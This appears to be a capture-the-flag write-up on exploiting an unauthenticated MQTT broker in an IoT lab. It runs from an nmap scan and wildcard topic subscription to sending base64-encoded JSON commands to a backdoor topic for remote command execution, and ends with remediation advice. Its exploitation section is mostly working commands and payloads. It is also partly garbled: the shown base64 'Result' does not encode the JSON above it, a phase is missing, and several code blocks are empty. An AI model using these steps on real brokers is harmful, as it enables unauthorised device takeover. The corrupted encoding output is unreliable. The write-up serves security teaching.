







# IoT MQTT Backdoor Exploitation Write-Up  
**Author:** Mohammad Meraj   
**Date:** 11-12-2025

---

# Overview

This assessment targeted a vulnerable IoT environment using an unsecured MQTT broker. Through reconnaissance and traffic analysis, I discovered a backdoor command channel embedded in MQTT communications. By decoding the command structure, crafting base64-encoded JSON payloads, and publishing them to specific topics, I achieved remote command execution and captured the target flag.

The exploitation demonstrates how **insecure MQTT implementations** can lead to complete system compromise.

---

# PHASE 1: RECONNAISSANCE

### Initial Port Scan
An Nmap scan was performed to identify open services on the target:



```
nmap -sV -p- 10.81.170.4
```

**Findings:**
- **SSH (22/tcp)** – OpenSSH 8.2p1 Ubuntu  
- **MQTT (1883/tcp)** – Mosquitto broker (unauthenticated)

The MQTT service was identified as the primary attack surface for IoT communication.

---

# PHASE 2: TOOL SETUP

Installed necessary MQTT client utilities:




```bash
sudo apt install mosquitto mosquitto-clients
```

**Tools Used:**
- `mosquitto_sub` – Subscribe to MQTT topics  
- `mosquitto_pub` – Publish crafted messages

---

# PHASE 3: ENUMERATION

### Subscribing to All MQTT Traffic
Subscribed to all topics using a wildcard to capture device communications:


```bash
mosquitto_sub -h $BROKER_IP -r "#" -v
```

**Observed Traffic:**
- Regular device telemetry (thermostats, lights, cameras)
- Base64-encoded messages in specific topics

### Decoding the Backdoor Configuration
A base64 payload from a config topic revealed the backdoor structure:


```

### Understanding the Required Format
The device required commands in this JSON structure, then base64-encoded:

```json
{
  "id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d",
  "cmd": "CMD",
  "arg": "<command>"
}
```

### Initial JSON Command Attempt


### Testing Base64 Encoding


---

# PHASE 5: EXPLOITATION WORKFLOW

## 1. Crafting the JSON Payload
Example for executing `ls`:



```json
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls"}
```

## 2. Base64 Encoding
Using CyberChef or command line to encode:

```bash
echo '{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls"}' | base64
```

Result:
```
eyJpZC16ICJjZGQxYjFjMCoxYZQwLTRiMGYtOGUyMi82MMIzMTc1MDhiM2QiLCAIY21kIjogIKMNRCIsICJhcmc 101AibHMi fQgK
```

## 3. Publishing to the Backdoor Topic


```bash
mosquitto_pub -h $BROKER_IP -t "U4vyqNLQtf/OvozmaZyLT/15H9TF6CHg/pub" -m "<base64-payload>"
```

## 4. Listening for Responses
Received the response for `ls` command:


```bash
mosquitto_sub -h $BROKER_IP -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"
```

---

# PHASE 6: COMMAND EXECUTION

### Running `ls` Command
**Payload Sent:** Base64-encoded `ls` command  
**Response Received (decoded):**


```json
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "response": "flag.txt\n"}
```

### Preparing `cat flag.txt` Command
!

### Executing the Flag Read Command


**Payload Sent:** Base64-encoded `cat flag.txt` command  

### Receiving Base64 Response


**Response Received (decoded):**



```json
{
  "id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d",
  "response": "flag{18d44fc0707ac8dc8be45bb83db54013}\n"
}
```

---

# FINAL FLAG

```
flag{18d44fc0707ac8dc8be45bb83db54013}
```

---

# Risk Rating

**Severity:** CRITICAL  
**Impact:** Remote Command Execution (RCE)  
**Attack Vector:** Network  
**Privileges Required:** None  
**User Interaction:** None  

**Consequences:**
* Remote system command execution
* Arbitrary file access and exfiltration
* Complete device compromise
* Potential lateral movement within network

---

# Remediation

### 1. **Enable MQTT Authentication**
   Implement username/password authentication for all broker connections:
   ```
   allow_anonymous false
   password_file /etc/mosquitto/passwd
   ```

### 2. **Enforce TLS Encryption**
   Require MQTT over TLS/SSL to prevent interception:
   ```
   listener 8883
   certfile /etc/mosquitto/certs/server.crt
   keyfile /etc/mosquitto/certs/server.key
   ```

### 3. **Implement Access Control Lists (ACLs)**
   Restrict topics per user/client:
   ```
   topic read $SYS/#
   topic write devices/+/command
   ```

### 4. **Disable Wildcard Subscriptions**
   Limit topic access to prevent information disclosure:
   ```
   acl_deny_write_pattern #
   acl_deny_read_pattern #
   ```

### 5. **Input Validation & Sanitization**
   Validate all incoming messages:
   - Verify command format and structure
   - Restrict allowed commands to whitelist
   - Implement rate limiting per client

### 6. **Network Segmentation**
   Isolate IoT devices on separate VLANs
   Implement firewall rules restricting MQTT access

### 7. **Regular Security Audits**
   - Monitor MQTT traffic for anomalies
   - Regularly update Mosquitto broker
   - Conduct penetration tests on IoT infrastructure

---

# Conclusion

This engagement demonstrated how **insecure MQTT configurations** can expose critical attack surfaces in IoT environments. The complete lack of authentication, combined with a hidden command channel, allowed for full system compromise through simple message publishing.

The methodology followed mirrors **real-world IoT penetration testing**, where message brokers often become the weakest link in connected device ecosystems. This case highlights the importance of securing MQTT implementations in production environments.

**Key Takeaways:**
1. Never expose MQTT brokers without authentication
2. Always encrypt IoT communications
3. Implement strict topic and command authorization
4. Regularly audit IoT device communications
5. Assume any exposed service will be discovered and exploited
